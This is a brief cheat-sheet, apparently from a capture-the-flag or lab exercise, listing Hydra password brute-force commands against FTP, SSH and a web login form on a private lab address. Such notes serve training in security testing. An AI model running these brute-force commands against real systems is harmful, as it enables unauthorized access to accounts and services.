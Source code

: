 Hydra is a brute force online password cracking program; a quick system login password 'hacking' tool.

FTP
> hydra -l user -P passlist.txt ftp://10.10.149.128

SSH
> hydra -l {UserName} -P {Wordlist path} 10.10.149.128 -t 4 ssh

Post Web Form
> hydra -l {UserName} -P {Wordlist path} 10.10.149.128 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

